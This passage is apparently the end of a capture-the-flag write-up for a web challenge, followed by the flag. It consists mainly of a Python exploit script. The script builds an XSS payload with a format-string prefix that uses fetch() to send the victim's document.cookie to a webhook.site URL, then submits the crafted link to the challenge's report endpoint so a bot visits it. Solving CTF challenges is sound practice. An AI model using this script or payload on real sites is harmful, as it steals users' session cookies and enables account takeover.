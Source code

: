 
## Script
Here is a short script to do the exploit fastly, you can run the script like this: `python3 exploit.py  --target "<challenge-url>" --webhook "https://webhook.site/XXXXX"`:
```py
import argparse
import urllib.parse
import requests

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--target', required=True)
    parser.add_argument('--webhook', required=True)
    args = parser.parse_args()

    target_url = args.target
    webhook_url = args.webhook

    xss_payload = f"img src=x onerror=fetch('{webhook_url}?cookie='+btoa(document.cookie))>"
    full_payload = f"%1$60x%1$n%c{xss_payload}"
    encoded_payload = urllib.parse.quote(full_payload)
    final_exploit_url = f"{target_url}?msg={encoded_payload}"

    report_endpoint = target_url.rstrip('/') + '/report'
    data = {
        'url': final_exploit_url,
        'pow': ""
    }

    response = requests.post(report_endpoint, data=data)
    print(f"[*] Submitted to {report_endpoint}, status: {response.status_code}")

if __name__ == "__main__":
    main()
```


Flag:
```
dach2025{th3_future_0f_w3b_1s_pwn_709d6737a468685cdf2cc2312dd36380}
```